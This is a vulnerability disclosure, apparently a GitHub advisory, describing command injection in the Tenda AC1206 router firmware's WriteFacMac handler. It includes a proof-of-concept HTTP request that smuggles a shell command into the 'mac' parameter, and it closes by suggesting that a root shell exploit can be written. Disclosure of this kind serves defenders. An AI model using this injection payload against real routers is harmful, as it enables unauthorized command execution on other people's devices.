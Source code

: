 #  Tenda AC1206 (V15.03.06.23) has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.tenda.com.cn
- Firmware download address ： https://www.tenda.com.cn/download/detail-2766.html

### Product Information

Tenda AC1206 V15.03.06.23, the latest version of simulation overview：

![image-20220724213031606](img/image-20220724213031606.png)

## Vulnerability details

The Tenda AC1206 (V15.03.06.23) was found to contain a command insertion vulnerability in formWriteFacMac.This vulnerability allows an attacker to execute arbitrary commands through the "mac" parameter.

![image-20220804202859967](img/image-20220804202859967.png)

The `mac`(the value of `mac`) we entered  will be passed into the `doSystemCmd` function as a parameter.

![image-20220805143223352](img/image-20220805143223352.png)

The `doSystemCmd` function is finally found to be implemented in this file by string matching.

![image-20220805143304498](img/image-20220805143304498.png)

Reverse analysis found that the function was called directly through the system function, which has a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /goform/WriteFacMac?mac=;echo%20you%20pwn%20it 
Host: 192.168.37.137
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: password=caw5gk
Upgrade-Insecure-Requests: 1
```

![image-20220804202006797](img/image-20220804202006797.png)

The above diagram shows that the command has been executed successfully.

![image-20220724220055672](img/image-20220724220055672.png)

Finally, you also can write exp to get a stable root shell.


